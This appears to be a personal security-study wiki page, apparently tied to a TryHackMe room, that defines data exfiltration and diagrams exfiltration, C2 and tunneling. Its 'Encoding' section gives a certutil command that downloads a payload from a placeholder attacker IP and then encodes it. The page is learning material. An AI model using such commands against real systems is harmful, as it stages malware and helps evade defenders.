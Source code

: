# Data Exfiltration Defined

This article will attempt to define Data Exfiltration and link futher articles to concepts and methods related to the general concept of Data Exfiltration. Data Exfiltration is non-tradition approach for copying and transferring data from a compromised system to a attacker controlled machine. The means for which the Data is Exfiltrated is delibrately obsucated by trying to emulate normal network activity. For regular file transfers see [[File-Transfers]], [[Linux-File-Transfers]] and [[Windows-File-Transfers]]


## Introduction

Data Exfiltration is is a post-compromise process and ultimate stage of [[Lockhead-Martin-Cyber-Kill-Chain]], that the act of taking an unauthorized copy of sensitive data and moving it from the inside of an organization's network to the outside. The term Data Exfiltration also refer the methods of evasion and stealth used to evade security and hide malicious activities. The Data that is exfiltrated is valuable in some way. Other than to steal data the use cases also include C2 communications(see [[Introduction-To-Comand-And-Control-Frameworks]]) and tunneling - see [[Port-Redirection-And-Tunneling]]


#### Tradition Data Exfiltration Diagram

All traffic is only one direction:
```
# Data Exfiltration
Attacker -> Attack Server <- <- Target Network Security <- Target Network Data Stores
							<- - - - - - - - DATA  
```

#### C2 Communication Diagram

C2 frameworks provides standard and non-traditional protocols to send commands and recieve responses from establish a two way communication channel between Attacker and C2 Beacon.
```
# C2 Communication
						  <- <- Outbound   			    <- <- Outbound
Attacker -> Attack Server -- -- Target Network Security -- C2 Beacon on Target Network 
						  -> -> Inbound					-> -> Inbound
```

#### Tunneling Diagram

Attacker uses data exfiltration technique to establish a communication channel acting like a tunnel to between a victim and attacker's machine to allow attack access the entire network.
```
# Tunneling
	___Represents_the_Attacker's_communication_really_it's_going_through_tunnel___
	|                                                                             |
	|					  <- <- Tunnel   			    <- <- Tunnel              |
Attacker -> Attack Server -- -- Target Network Security -- C2 Beacon on Target Network 
						  -> -> Tunnel					-> -> Tunnel
```

## Methods of Obsucation

#### Encoding
Certutil can both download and encode
```powershell
certutil -URLcache -split -f http://Attacker_IP/payload.exe C:\Windows\Temp\payload.exe
certutil -encode payload.exe Encoded-payload.txt
```


#### Archiving

## Data Exfiltration
[[Data-Exfiltration-Over-TCP-Sockets]]
[[Data-Exfiltration-Over-SSH]]
[[Data-Exfiltration-Over-HTTP-and-HTTPS]]
[[Data-Exfiltration-Over-ICMP]]




## References

[THM Data Exfiltration](https://tryhackme.com/room/dataxexfilt)